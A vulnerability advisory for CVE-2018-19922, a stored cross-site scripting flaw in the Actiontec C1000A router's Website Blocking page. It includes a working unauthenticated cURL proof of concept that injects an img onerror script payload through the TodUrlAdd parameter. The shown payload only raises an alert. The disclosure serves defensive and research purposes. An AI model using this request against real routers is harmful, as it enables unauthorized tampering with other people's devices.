 # Persistent XSS in the Actiontec C1000A router Website Blocking page
**Vendor**: Actiontec

**Product**: C1000A

**Firmware Version**: CAC004-31.30L.95

**CVE**: [CVE-2018-19922](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19922)

## Verification:
1. Make an HTTP request to the router where 192.168.0.1 is the router's local IP address, for example with this cURL POC (no authentication is needed in the cURL request):
```
curl "http://192.168.0.1/urlfilter.cmd?action=set_url&TodUrlAdd=<img+src=x+onerror=\"alert(String.fromCharCode(88,83,83))\"/>&Lan_IP=192.168.0.2&listtype=Exclude" -X POST
```
(The HTML payload is passed in the `TodUrlAdd` parameter. Even though this is a POST request, parameters are still passed in the URL.)

2. Open up the page Advanced Setup -> Website Blocking (/advancedsetup_websiteblocking.html) to verify that the XSS is there. It should show an alert box with the text "XSS".
